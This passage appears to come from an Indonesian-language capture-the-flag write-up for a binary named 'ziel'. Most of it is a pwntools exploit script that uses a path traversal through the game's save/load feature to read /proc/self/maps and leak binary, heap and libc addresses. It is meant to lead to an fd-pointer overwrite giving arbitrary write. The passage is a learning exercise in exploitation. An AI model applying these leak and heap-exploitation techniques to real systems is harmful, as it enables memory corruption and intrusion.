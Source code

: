 Nah sekarang aku cuma perlu ganti fd pointer, dan selesai. _Arbitrary write_.

Berikut exploit lengkap saya:

```python


from pwn import *

p = process('./ziel')

def next():
  p.sendlineafter('>', '1')

def spawn(x_pos, y_pos, identifier, x_vel, y_vel, desc_len, desc):
  p.sendlineafter('>', '2')
  p.sendlineafter('X:', str(x_pos))
  p.sendlineafter('Y:', str(y_pos))
  p.sendlineafter('ID:', str(identifier))
  p.sendlineafter('X:', str(x_vel))
  p.sendlineafter('Y:', str(y_vel))
  p.sendlineafter('length:', str(desc_len))
  p.sendlineafter('Description:', str(desc))

def kill(x_pos, y_pos):
  p.sendlineafter('>', '3')
  p.sendlineafter('X:', str(x_pos))
  p.sendlineafter('Y:', str(y_pos))

def save():
  p.sendlineafter('>', '4')

def load():
  p.sendlineafter('>', '5')

def restart():
  p.sendlineafter('>', '6')


p.sendlineafter('code:', '')
p.sendlineafter('Width:', '40')
p.sendlineafter('Height:', '1')


# leak maps
spawn(19, 0, 'd', 0, 0, 0x40-0xb, 'a'*(0x40-0xb))
kill(19, 0)
restart()

p.sendlineafter('code:', 'asdf')
p.sendlineafter('Width:', '128')
p.sendlineafter('Height:', '16')

maps = '../proc/self/maps'
for i in range(len(maps)):
  spawn(i, 0, maps[i], 0, 0, 1, 'a')

save()
load()
next()

p.recvuntil('|')
binary_leak = int(p.recvuntil('-')[:-1], 16)
heap_leak = int(p.recvuntil('[heap]')[-83:-70], 16)
libc_leak = int(p.recvuntil('-')[:-1], 16)
```